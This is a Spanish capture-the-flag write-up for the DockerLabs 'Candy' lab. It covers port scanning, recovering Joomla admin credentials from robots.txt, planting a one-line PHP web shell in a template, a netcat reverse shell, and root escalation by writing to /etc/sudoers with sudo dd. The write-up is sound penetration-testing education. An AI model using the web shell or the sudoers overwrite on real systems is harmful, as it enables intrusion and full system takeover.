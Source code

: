 ![image](https://github.com/user-attachments/assets/5c39c0c8-dcd9-487e-aded-528800c3c9b0)---
title: Candy - DockerLabs
published: true
categories: DockerLabs
---


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | Luisillo_o        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/78b9f3c1-81db-480e-884d-be8bbfed7b1e)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p80 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/65c0f947-e2bd-4fcc-9c1a-d6054a912860)

# Exploración Web
Al navegar al puerto `80`, descubrimos un sitio web de joomla.

![image](https://github.com/user-attachments/assets/36850d5a-fce8-4db7-9313-879c5f919e9c)

Vemos que tenemos tambien un `robots.txt ` el cual tambien contiene un al final lo que parece un usuario y una contraseña.

![image](https://github.com/user-attachments/assets/129e696d-5893-40c1-96a8-174e2cd8c425)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

Recordando que antes vimos en robots.txt un usuario admin y una contraseña, al probarla no nos deja acceder, pero si accedemos en la pagina cyberchef al pegar la contraseña nos dice que esta en base64.

![image](https://github.com/user-attachments/assets/7dcf3ecf-23c6-40d8-a1d2-b3be64522f41)

La contraseña es `sanluis12345`.

Ya estamos dentro del panel de adminsitrador del servidor de joomla.

![image](https://github.com/user-attachments/assets/a6f2421c-37b7-4350-a3b7-fe1cb30d48fb)

Ahora para generar el `RCE`, debemos de entrar en `system > Templates > Site Templates > Cassiopeia Details and Files`, añadimos en el `index.php` lo siguiente: 

```bash
<?php
       system($_GET['cmd']);
?>
```

![image](https://github.com/user-attachments/assets/69c1693c-3568-46cd-8688-e12b2dac1c80)

Ahora si ponemos lo siguiente en la url `/index.php?cmd=id`, podemos comporbar que funciona.

![image](https://github.com/user-attachments/assets/ecea3218-1c82-4372-8379-61b3c87ac891)

Por lo que generaremos una revershell.

# Reverse Shell

Modificaremos para que sea una reverseshell usando la herramienta [Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) para crear una shell en PHP. La reverse shell se encuentra disponible en:

![image](https://github.com/user-attachments/assets/050453d5-ff92-46ff-8313-11488998183f)

Simultáneamente, iniciamos `netcat` en nuestro sistema para escuchar conexiones entrantes:
```bash 
nc -lvnp 4444
```
Al acceder a la reverse shell desde el navegador, logramos obtener acceso como `www-data`.

![image](https://github.com/user-attachments/assets/ba14667e-c769-4e9c-9e3c-8ba8c46fbf3d)

Logramos acceso como` www-data`.

![image](https://github.com/user-attachments/assets/10c321b4-4476-4b15-82bc-538c244c6476)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de privilegios

Lo que haremos sera usar el programa `linpeas` para ver que nos puede detectar.

![image](https://github.com/user-attachments/assets/6a7efbd1-7968-411d-9b99-c786820ceede)

Encontramos la siguiente ruta `/var/backups/hidden/otro_caramelo.txt`. vamos a ver que contiene.

![image](https://github.com/user-attachments/assets/318ac934-596d-456a-ab34-08125a442a64)

Vemos que contiene una contraseña para el usuario `luisillo`, intentamos el acceso.

![image](https://github.com/user-attachments/assets/058fa596-20e4-4030-a6d8-fab78d4d2468)

Accedemos con luisillo, por lo que ahora deberiamos de ver la manera de escalar privilegios con el.

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `dd` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
LFILE=/etc/sudoers
echo "luisillo ALL=(ALL:ALL) ALL" | sudo dd of=$LFILE
```

Ahora ponemos `sudo su`.

![image](https://github.com/user-attachments/assets/5c2b6b91-78e4-466a-8291-61dca1fa1068)

Ya somos root 

